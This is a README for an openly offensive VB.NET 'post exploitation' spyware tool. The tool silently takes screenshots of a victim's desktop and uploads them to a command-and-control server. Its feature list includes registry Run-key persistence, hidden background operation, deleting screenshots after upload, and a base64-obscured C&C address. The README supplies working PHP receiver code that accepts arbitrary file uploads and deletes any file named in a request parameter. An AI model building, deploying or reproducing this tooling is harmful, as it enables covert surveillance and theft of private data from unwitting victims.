 # ****
$$\      $$\ $$$$$$$\        $$$$$$$\  $$$$$$$$\ $$$$$$$$\ $$$$$$$$\ $$$$$$$\  
$$$\    $$$ |$$  __$$\       $$  __$$\ $$  _____|\__$$  __|$$  _____|$$  __$$\ 
$$$$\  $$$$ |$$ |  $$ |      $$ |  $$ |$$ |         $$ |   $$ |      $$ |  $$ |
$$\$$\$$ $$ |$$$$$$$  |      $$$$$$$  |$$$$$\       $$ |   $$$$$\    $$$$$$$  |
$$ \$$$  $$ |$$  __$$<       $$  ____/ $$  __|      $$ |   $$  __|   $$  __$$< 
$$ |\$  /$$ |$$ |  $$ |      $$ |      $$ |         $$ |   $$ |      $$ |  $$ |
$$ | \_/ $$ |$$ |  $$ |      $$ |      $$$$$$$$\    $$ |   $$$$$$$$\ $$ |  $$ |
\__|     \__|\__|  \__|      \__|      \________|   \__|   \________|\__|  \__|
                                                                               
                                                                               
                                                                               
****

## Silent Screenshot Capture | Post Exploitation Tool | VB.NET

A simple payload to take the screenshot of victims desktop and upload it to the C&C.

## Features:

 - Persistent (Using Registry Run Key)
 - Works in background 
 - Less Code Less Bugs
 - Deletes the screenshot on after upload it to C&C
 - C&C server in base64 
 - Upload screenshots in organized way on C&C
 - No port forwarding needed! works with a single php file
 - [TODO] Machine Information 
 - [TODO] Encryption 
 - [TODO] Set interval remotely from C&C

## Installation & Usage:
-   Clone this repository.
- A webhosting i recommend [namecheap](https://www.namecheap.com/) 
- Goto your public_html folder and make new php file and put this code in it
```
<?php
$del = $_GET["dellog"];
$folder = $_GET["folder"];
mkdir($folder,0777);
$file = $_GET["path"];
if (!empty($_FILES["file"])){
move_uploaded_file($_FILES["file"]["tmp_name"],
      $file . "/" . $_FILES["file"]["name"]);
}
unlink($del);
?>
```
